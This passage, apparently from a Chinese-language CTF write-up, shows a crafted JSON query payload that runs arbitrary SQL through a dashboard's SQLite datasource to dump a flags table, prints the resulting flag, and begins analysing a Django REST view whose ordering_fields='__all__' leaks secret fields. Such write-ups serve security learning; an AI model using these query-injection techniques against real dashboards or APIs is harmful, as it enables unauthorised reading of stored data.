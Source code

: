 可以发现响应中确实包含了表的结构，处理之后得到如下表结构。

```sqlite
CREATE TABLE "logs" (
	"host"	TEXT NOT NULL,
	"status"	TEXT NOT NULL
),CREATE TABLE "flags" (
	"challenge"	INTEGER NOT NULL,
	"flag"	TEXT NOT NULL
)
```

因此进一步构造出如下载荷读取出 flag。

```json
{
    "queries":[
        {
            "queryText":"SELECT group_concat(flag) FROM flags;",
            "queryType":"table",
            "rawQueryText":"SELECT group_concat(flag) FROM flags;",
            "refId":"A",
            "datasource":"sqlite",
            "datasourceId":1,
            "intervalMs":30000,
            "maxDataPoints":710
        }
    ]
}
```

将包含载荷的请求发送即可在响应中得到 flag。

```flag
ractf{BringBackNagios}
```

#### Secret Store

> How many secrets could a secret store store if a store could store secrets?

题目给出的源码关键部分如下。

```python
class SecretViewSet(viewsets.ModelViewSet):
    queryset = Secret.objects.all()
    serializer_class = SecretSerializer
    permission_classes = (IsAuthenticated & IsSecretOwnerOrReadOnly,)
    filter_backends = [filters.OrderingFilter]
    ordering_fields = "__all__"
```

在登录后按照提示访问 /api/secret/ 路由可以提交一个 secret，在尝试之下可以发现 GET 请求这个路由可以得到目前所有存储的 secret 的基本信息。此时再来看这个 ViewSet，注意到他的 ordering_filelds 的值被设定为了 \_\_all\_\_。查阅 Django 的文档可以发现有如下描述。

> If you are confident that the queryset being used by the view doesn't contain any sensitive data, you can also explicitly specify that a view should allow ordering on *any* model field or queryset aggregate, by using the special value `'__all__'`.
